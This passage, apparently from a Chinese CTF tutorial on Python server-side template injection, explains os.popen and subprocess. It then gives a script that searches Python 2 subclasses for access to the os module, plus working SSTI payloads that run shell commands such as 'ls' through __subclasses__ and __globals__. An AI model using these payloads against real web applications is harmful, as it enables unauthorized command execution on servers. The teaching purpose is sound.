 说明：mode – 模式权限可以是 ‘r’(默认) 或 ‘w’。

popen方法通过p.read()获取终端输出，而且popen需要关闭close().当执行成功时，close()不返回任何值，失败时，close()返回系统返回值（失败返回1）. 可见它获取返回值的方式和os.system不同。

![](https://mmbiz.qpic.cn/mmbiz_png/1N39PtINn8vv7KaA050aUefyTRxicXz0yeLWj2UAnkRHVftOYQibwrqnweozgKADaWXdTq97mnX0z2WXlwqrvDLg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

subprocess
subprocess 模块有比较多的功能，subprocess模块被推荐用来替换一些老的模块和函数，如：os.system、os.spawn、os.popen等

subprocess模块目的是启动一个新的进程并与之通信。这里只讲用来运行shell命令的两个常用方法。

subprocess.call(“command”)
父进程等待子进程完成
返回退出信息(returncode，相当于Linux exit code)

与os.system功能相似,也无执行结果的回显

subprocess.Popen(“command”)

说明：class subprocess.Popen(args, bufsize=0, executable=None, stdin=None, stdout=None, stderr=None, preexec_fn=None, close_fds=False, shell=False, cwd=None, env=None, universal_newlines=False, startupinfo=None, creationflags=0)

Popen非常强大，支持多种参数和模式，通过其构造函数可以看到支持很多参数。但Popen函数存在缺陷在于，它是一个阻塞的方法，如果运行cmd命令时产生内容非常多，函数就容易阻塞。另一点，Popen方法也不会打印出cmd的执行信息。

0x04 如何发掘可利用payload
最初接触SSTI的时候总会有一个固定思维，遇到了题就去搜SSTI的payload，然后一个个去套，随缘写题法（×）。然而每个题都是有自己独特的一个考点的并且python环境不同，所能够使用的类也有差异，如果不能把握整体的原理，就不能根据具体题目来进行解题了。这里我们来初探一下发掘步骤。

比如我们想要一个执行命令的payload，如何查找？很简单我们只需要有os模块执行os.system即可

python2
```python
#python2
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if 'os' in item.__init__.__globals__:
            print num,item
        num+=1
    except:
        num+=1

#72 <class 'site._Printer'>
#77 <class 'site.Quitter'>
```
payload

''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls')

[].__class__.__base__.__subclasses__()[72].__init__.__globals__['os'].popen('ls').read()

查阅资料发现访问os模块还有从warnings.catchwarnings模块入手的，而这两个模块分别位于元组中的59，60号元素。__init__方法用于将对象实例化，在这个函数下我们可以通过funcglobals（或者`__globals`）看该模块下有哪些globals函数（注意返回的是字典），而linecache可用于读取任意一个文件的某一行，而这个函数引用了os模块。

于是还可以挖掘到类似payload（注意payload都不是直接套用的，不同环境请自行测试
我们除了知道了linecache、os可以获取到命令执行的函数以外，我们前面还提到了一个__builtins__内建函数，在python的内建函数中我们也可以获取到诸如eval等执行命令的函数。于是我们可以改动一下脚本，看看python2还有哪些payload可以用：
